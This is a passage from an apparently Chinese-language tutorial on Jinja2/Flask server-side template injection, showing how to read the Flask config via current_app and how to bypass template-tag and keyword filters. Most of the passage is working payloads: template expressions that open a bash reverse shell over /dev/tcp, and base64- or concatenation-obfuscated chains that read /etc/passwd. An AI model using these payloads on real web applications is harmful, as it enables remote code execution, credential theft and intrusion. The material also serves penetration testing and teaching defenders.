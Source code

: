 ```
request.json         #Content-Type json
```
- 通过拿到`current_app`这个对象获取当前`flask App`的上下文信息，实现config读取
比如

```
`{``{`url_for.__globals__.current_app.config`}``}`
`{``{`url_for.__globals__['current_app'].config`}``}`
`{``{`get_flashed_messages.__globals__['current_app'].config.`}``}`
`{``{`request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].cofig`}``}`
```



## 0x03 Bypass的手段

在对Jinjia SSTI注入时，本质是在Jinja的沙箱中进行代码注入，因此很多绕过技巧和python沙箱逃逸是共通的

### <a class="reference-link" name="%7B%7B%7D%7D%E6%A8%A1%E6%9D%BF%E6%A0%87%E7%AD%BE%E8%BF%87%E6%BB%A4"></a>`{``{``}``}`模板标签过滤
<li>
``{`% if xxx %`}`xxx`{`% endif %`}``形式</li>
```
`{`% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('bash -i &gt;&amp; /dev/tcp/127.0.0.1/233 0&gt;&amp;1') %`}`1`{`% endif %`}`
```
- `{`% print xxx %`}` 形式
```
`{`% print ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('bash -i &gt;&amp; /dev/tcp/127.0.0.1/233 0&gt;&amp;1')
```

### <a class="reference-link" name="%E5%85%B3%E9%94%AE%E8%AF%8D%E8%BF%87%E6%BB%A4"></a>关键词过滤

#### <a class="reference-link" name="base64%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87"></a>base64编码绕过

`__getattribute__`使用实例访问属性时,调用该方法

例如被过滤掉**class**关键词

```
`{``{`[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()`}``}`
```

#### <a class="reference-link" name="%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%8B%BC%E6%8E%A5%E7%BB%95%E8%BF%87"></a>字符串拼接绕过

```
`{``{`[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()`}``}`
```
